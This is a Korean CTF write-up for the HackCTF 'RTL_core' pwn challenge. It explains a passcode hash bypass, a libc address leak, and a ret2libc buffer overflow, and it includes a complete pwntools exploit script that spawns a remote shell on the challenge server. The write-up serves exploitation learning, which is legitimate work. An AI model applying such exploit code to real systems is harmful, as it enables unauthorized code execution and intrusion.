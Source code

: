 ```yaml
---
layout: post
title:  "HacCTF RTL core write-up"
date:   2020-01-12 19:45:55
image:  hackctf_rtl_core.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


# [HackCTF] RTL_core

Date: Jan 12, 2020
Tags: report

### 1.  문제

걸려있는 보호기법은 다음과 같다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled.png)

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%201.png)

문제를 실행시키면 패스코드를 입력하라는 문구가 나오게 된다.

특정 패스코드를 입력해야 뭔가 다음 스텝으로 진행되는 것 같다. 

따라서 아이다로 까보쟈

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%202.png)

9라인을 보면 gets로 입력한 s 값을 check_pascode 함수에 넣은 값과 hashcode와 비교하는 것이 보인다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%203.png)

hashcode는 전역변수로 선언이 되어있는데 이 값은 0xc0d9b0a7 이다. check_passcode 함수의 리턴값과 저 값이 같아야지 core() 함수가 실행되는 것같다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%204.png)

core함수는 다음과 같다. dlsym 함수를 이용하여 printf의 주소를 가져오는 코드이다. 따라서 해당 core 함수가 실행되면 printf 함수주소를 알려주게 된다. 즉 leak을 이용한 rtl 문제이다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%205.png)

그렇다면 우선 check_passcode 함수에서 hashcode와 같은 값을 계산하게 만들어야한다

### 2. 접근방법

우선 check_passcode를 통과시켜 보자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%206.png)

입력한 값의 주소가 넘어가게된다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%205.png)

for문을 보면 al값에 4*i 만큼 더하고 다시 4바이트 포인터로 형변환 값을 v2에 더하게 된다

즉, 정리하면

- **i = 0**

    v2 = 0 + a1

- **i = 1**

    v2 = 4 + a1

- **i = 2**

    v2 = 8 + a1

- **i = 3**

    v2 = 12 + a1

- **i = 4**

    v2 = 16 + a1

다음의 로직이 수행이 되고, 이 의미는, al 주소에서 4바이트 씩 +16까지 더한다는 의미이다.

이 값이 아까 hasscode와 같아야 하기 때문에 hashcode 나누기 5 를 하면 된다

하지만 딱 떨어지지 않고 2가 남기 때문에, 마지막 al+16의 값은 +2를 해주면 된다

1. hashcode : 0xC0D9B0A7(3235492007)
2. hashcode / 5 =  647098401 (나머지 2)
3. 입력해야 하는 값 

    647098401 + 647098401  + 647098401  + 647098401  + (647098401 + 2)

그다음 core함수를 통해 출력되는 printf 주소를 이용하여 rtl을 진행하면된다

문제에서 libc.so.6 파일을 주었기 때문에, pwntools symbols 기능을 이용하여 익스코드를 짜면된다

### 3. 풀이

최종 익스 코드는 다음과 같다

    # -*- coding: utf-8 -*- 
    
    from pwn import *
    
    p = remote("ctf.j0n9hyun.xyz",3015)
    e = ELF("./libc.so.6")
    #p = process("./rtlcore")
    #gdb.attach(p)
    
    p.recvuntil("Passcode: ")
    
    
    printf = 0xf7e4a670
    system = 0xf7e3bda0
    bin_sh = 0xf7f5ca0b
    
    printf_system = 0xe8d0
    bin_sh_printf = 0x11239b
    
    
    payload = p32(0x2691f021)*4
    payload +=p32(0x2691f023)
    
    p.sendline(payload)
    tmp=p.recvuntil("바로 ")
    log.info(tmp)
    
    printf_addr = int(p.recv(10),16)
    log.info(hex(printf_addr))
    
    
    libc_base = printf_addr - e.symbols['printf']
    
    system_addr = libc_base + e.symbols['system']
    bin_sh_addr = libc_base + e.search("/bin/sh").next()
    
    payload = "A"*66
    payload += p32(system_addr)
    payload += "B"*4
    payload += p32(bin_sh_addr)
    
    p.sendline(payload) 
    
    p.interactive()

### 4. 몰랐던 개념

처음에는 yes_or_no 문제를 풀면서 공부한 libc 공유 라이브러리 개념을 이용하여 문제를 풀었다

leak 한 주소 하위 3바이트를 가지고 libc database online을 이용하여 해당 libc 버전을 확인하였고, vmmap 을 이용하여 한번더 버전을 확인했다.

그 결과 우분투 16버전에서 진행하면 되는 것을 확인하였고,

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%207.png)

다음의 명령어를 통해 주어진 libc.so.6 파일이 결국 libc.-2.23.so 파일에 링킹되어 있다는 것을 알았다

그래서

    printf : 0xf7e4a670
    system : 0xf7e3bda0
    /bin/sh : 0xf7f5ca0b
    
    1. printf - system = 0xe8d0
    2. /bin/sh - printf =  0x11239b
    
    3. leak 한 printf 주소 - 0xe8d0 = system
    4. leak 한 printf 주소 + 0x11239b = /bin/sh
    
    --------------------------------------------
    
    ret(system) + 더미 + /bin/sh주소

이렇게 gdb로 직접 오프셋을 확인하여 익스를 하였는데

process로 로컬로 붙어서 했을때는 쉘이 떨어졌는데 원격으로는 안됬다. 

이부분은 멘토님이나 다른 친구한테 질문해야 할 것같다